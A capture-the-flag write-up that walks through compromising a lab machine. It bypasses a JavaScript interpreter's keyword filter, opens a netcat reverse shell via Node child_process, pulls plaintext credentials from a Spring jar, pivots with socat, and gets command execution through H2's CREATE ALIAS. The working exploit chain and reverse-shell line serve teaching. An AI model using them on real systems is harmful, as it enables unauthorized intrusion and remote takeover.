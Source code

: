 # Nmap

After scanning the machine with nmap, there are 3 ports open: `22`, `5000` and `8080`.

```bash
nmap --top-ports 1000 10.0.10.99 -sV
```

![](screenshots/1.png)

```
PORT     STATE SERVICE
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.0 (protocol 2.0)
5000/tcp open  tcpwrapped
8080/tcp open  http-proxy
```

The service on port `5000` died from the portscan. The machine had to be restarted.

# 5000
There is a text based telnet like service on port `5000`. 

![](screenshots/2.png)

After experimenting with the inputs, it turns out it is a javascript interpreter, but certain keywords (`+`, `eval`, `btoa`, etc) are filtered.

![](screenshots/3.png)

With `Function` and `decodeURIComponent`, the blacklist can be bypassed and can run arbitrary script.

```
Function(decodeURIComponent("<urlencoded>"))() 
```

Running the code below (swapping the blacklisted parts with the method above) can open a reverse shell.

```js
var cp = null
cp = require('child_process')
var s = null
s = cp.spawn
s('nc',['10.0.1.2', 4444, '-e', '/bin/bash']) 
```

![](screenshots/4.png)

The flag is in the user's home directory.

![](screenshots/5.png)

# Flag 1
flag{off_5_58c90a12b6000de2b030b694e54f3ead}

# 8080
On the other port, there is a website with login form.

![](screenshots/6.png)

As we are already inside the machine, the processes can be checked. Most likely the `java` process is running on the port `8080`, with the jar file `/opt/cookbook.war`. Also the database password is visible on the command line.

![](screenshots/7.png)

The file is readable by anyone. 

![](screenshots/8.png)

The ~~war~~ jar file can be analyzed locally. The jar files are using zip as container. The following can be gathered from the file.

 - Springboot app, running on port `8080`.
 - The [WEB-INF\classes\data.sql](workdir/data.sql) has an initial database with working credentials.
   ```sql
   insert into user (id, dtype, username, password) values
       (1, 'Cook', 'AzureDiamond', 'hunter2'),
       (2, 'Cook', 'jane', '1q2w3e'); 
   ```
 - [WEB-INF\classes\cookbook\configuration\SecurityConfiguration.class](workdir/SecurityConfiguration.class) contains a `/h2-console/` route.
   ```java
   @Configuration
   @EnableWebSecurity
   public class SecurityConfiguration extends WebSecurityConfigurerAdapter {
      @Autowired
      private DataSource dataSource;
      @Autowired
      private CookbookService cookbookService;
    
      protected void configure(AuthenticationManagerBuilder auth) throws Exception {
         ((JdbcUserDetailsManagerConfigurer)auth.jdbcAuthentication().dataSource(this.dataSource).   passwordEncoder(NoOpPasswordEncoder.getInstance())).usersByUsernameQuery("select username, password,    true from user where username=?");
      }
    
      protected void configure(HttpSecurity http) throws Exception {
         ((HttpSecurity)((FormLoginConfigurer)((FormLoginConfigurer)((HttpSecurity)((HttpSecurity)   ((HttpSecurity)((AuthorizedUrl)((AuthorizedUrl)((AuthorizedUrl)http.authorizeRequests().antMatchers   (new String[]{"/css/**"})).permitAll().antMatchers(new String[]{"/h2-console/**"})).permitAll().   anyRequest()).authenticated().and()).csrf().ignoringAntMatchers(new String[]{"/h2-console/**"} ).and   ()).headers().frameOptions().sameOrigin().and()).formLogin().loginPage("/login").permitAll()).   successHandler(new 2(this))).and()).logout().logoutSuccessHandler(new 1(this)).permitAll();
      }
   }
   ```
 - [WEB-INF\classes\application.properties](workdir/application.properties) has the database details.
   ```ini
   spring.datasource.url=jdbc:h2:mem:testdb
   spring.datasource.driverClassName=org.h2.Driver
   spring.datasource.username=admin2
   spring.datasource.password=
    
   spring.jpa.show-sql=false
   spring.h2.console.enabled=true
   spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
   spring.jpa.open-in-view=false
    
   spring.mvc.view.prefix=/WEB-INF/views/
   spring.mvc.view.suffix=.jsp 
   ```

With the database config and password from command line, the H2 console can be used to connect to the in-memory database.

Unfortunatelly, the H2 database is not available remotely.

![](screenshots/9.png)

Fortunatelly, we have code execution already. Creating a reverse proxy allows connecting from "localhost".

```
socat TCP-LISTEN:8081,fork TCP:127.0.0.1:8080
```

Logging in from here is trivial with `application.properties` and the command line.

![](screenshots/10.png)

It is possible to run code through the database by creating java a function.

```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
```

![](screenshots/11.png)

And calling it.

```sql
CALL EXECVE('/root/flag');
```

![](screenshots/12.png)

The flag is not a txt, but a binary, running it outputs the flag. It is checking a few things (for example password hash for root), so the easiest is running it on the machine itself.

# Flag
flag{off_6_58c90a12b6000de2b030b694e54f3ead}